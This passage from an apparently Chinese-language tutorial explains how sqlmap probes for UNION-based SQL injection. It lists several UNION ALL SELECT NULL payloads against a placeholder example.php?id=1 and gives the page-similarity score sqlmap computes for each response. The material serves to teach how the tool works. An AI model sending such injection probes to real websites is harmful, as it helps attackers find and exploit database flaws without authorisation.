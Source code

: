 这个数据包的网页相似度数值为0.716，第五个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- NvIh
```

![](../../.gitbook/assets/sqlmap36.jpg)

这个数据包的网页相似度数值为0.71，第六个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- qrAS
```

![](../../.gitbook/assets/sqlmap38.jpg)

这个数据包的网页相似度数值为0.723，第七个数据包：

```text
example.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- mmxs
```

![](../../.gitbook/assets/sqlmap39.jpg)
